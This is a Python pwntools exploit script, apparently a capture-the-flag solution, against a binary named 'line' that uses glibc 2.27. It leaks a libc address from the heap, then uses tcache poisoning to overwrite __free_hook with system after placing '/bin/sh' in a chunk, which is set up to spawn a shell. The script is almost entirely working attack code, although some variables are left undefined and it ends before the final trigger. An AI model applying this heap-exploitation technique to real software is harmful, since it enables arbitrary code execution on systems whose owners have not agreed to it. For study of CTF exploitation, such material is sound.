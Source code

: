 ```py
execve_file = './line'
# sh = process(execve_file, env={'LD_PRELOAD': '/tmp/gdb_symbols{}.so'.replace('{}', salt)})
sh = process(execve_file)
# sh = remote('', 0)
elf = ELF(execve_file)
libc = ELF('./libc-2.27.so')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Create temporary files for GDB debugging
try:
    gdbscript = '''
    define pr
        x/8wx $rebase(0x202140)
        end
    '''

    f = open('/tmp/gdb_pid{}'.replace('{}', salt), 'w')
    f.write(str(proc.pidof(sh)[0]))
    f.close()

    f = open('/tmp/gdb_script{}'.replace('{}', salt), 'w')
    f.write(gdbscript)
    f.close()
except Exception as e:
    print(e)

def New(id, size, content):
    sh.sendlineafter('choice: ', '1')
    sh.sendlineafter('ID: ', str(id))
    sh.sendlineafter('SIZE: ', str(size))
    sh.send(content)

def show():
    sh.sendlineafter('choice: ', '2')

for i in range(8):
    New(i + 1, 0xf8, '\n')

for i in range(7):
    New(i + 0x10, 0x28, '\n')

New(0x100, 1, '\xa0')
show()
sh.recvuntil('8 : 256 (')
result = sh.recvuntil(')', drop=True)
main_arena_addr = u64(result.ljust(8, '\0')) - 0x160
log.success('main_arena_addr: ' + hex(main_arena_addr))

libc_addr = main_arena_addr - (libc.symbols['__malloc_hook'] + 0x10)
log.success('libc_addr: ' + hex(libc_addr))

New(0x100, 1, '\n')

for i in range(7):
    if(0x20 + i == 0x23):
        New(0x20 + i, 0x38, '/bin/sh\0')
    else:
        New(0x20 + i, 0x38, '\n')

New(0x101, 0x38, '\n')
New(0x102, 0x18, p64(libc_addr + libc.symbols['__free_hook']))
New(0x103, 0x18, '\n')
New(0x104, 0x18, p64(libc_addr + libc.symbols['system']))
```